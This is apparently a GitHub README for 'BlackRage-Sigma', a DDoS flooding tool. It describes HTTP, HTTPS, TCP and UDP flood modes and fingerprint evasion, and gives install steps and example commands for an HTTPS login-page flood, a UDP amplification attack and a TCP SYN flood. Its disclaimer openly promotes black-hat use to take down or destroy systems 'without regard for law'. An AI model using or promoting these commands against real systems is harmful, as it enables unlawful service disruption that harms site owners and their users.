 # Ghost_Black_Rage_DDos Attack Tool

# BlackRage-Sigma 🚀

**BlackRage-Sigma** is a high-performance network stress testing tool engineered for penetration testers and cybersecurity researchers. Features Sigma-grade attack vectors and CyberGhost evasion techniques.


## Features ✨
- **4 Attack Modes**: HTTP/HTTPS/TCP/UDP flooding
- **SSL/TLS Support**: Bypass encrypted endpoints
- **Randomized User-Agents**: Evade basic fingerprinting
- **Thread-Optimized**: 200+ concurrent threads by default
- **CyberGhost Mode**: Stealth packet delivery system


## Installation ⚙️

# Clone repository
git clone https://github.com/[YOUR_USERNAME]/BlackRage-Sigma.git
cd BlackRage-Sigma

Usage 🎯

python3 blackrage.py [MODE] [TARGET] [OPTIONS]

Parameter	Description	Default
mode	http/https/tcp/udp	Required
target_host	IP/Domain to target	Required
-p, --port	Destination port	Auto-detected*
-P, --path	URL path (HTTP/S only)	/
-t, --threads	Attack threads (50-2000)	200
**Port defaults: HTTP=80, HTTPS=443, TCP/UDP=80*

Attack Explain:

# HTTPS flood with custom path
python blackrage.py https example.com -p 443 -P /login -t 500

# UDP amplification attack
python blackrage.py udp 192.168.1.100 -p 53

# TCP SYN flood
python blackrage.py tcp target-ip -t 1000

Disclaimer ⚠️
This tool is built for black hat operations. Use it to take down, disrupt, or destroy target systems without regard for law or consequence. No permissions. No warnings. Full responsibility rests on the operator. Chaos is the only rule.
